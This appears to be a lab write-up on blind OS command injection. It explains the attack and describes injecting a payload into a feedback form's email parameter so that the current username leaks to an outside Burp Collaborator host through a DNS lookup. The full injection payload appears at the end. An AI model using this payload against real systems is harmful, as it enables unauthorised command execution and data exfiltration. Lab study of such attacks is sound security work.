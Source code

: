 **Objective**
Exfiltrate username of current user using Burp Collaborator.

**OS Command Injection**
- An attacker is able to compromise a web application by targeting the server hosting it, using OS commands. For instance, UNIX commands for UNIX-like based servers.
- This attack is also called *shell injection*.
- *Blind* OS command injection is executed where no output is returned in response to a request.

**Point of Entry**
*Submit Feedback* form.

**Execution**
- Start intercept, fill the feedback form with random values then submit the form.
- In the issued POST request, replace email parameter with the exploit including a Burp Collaborator payload.
- Forward request and stop intercepting. Open Collaborator to find DNS lookup information.
- One of the queries contains response to `whoami`, which is the name of the currently logged in user.

**Exploit Payload**
`email=x||nslookup+'whoami'.BURP-COLLABORATOR-SUBDOMAIN||
`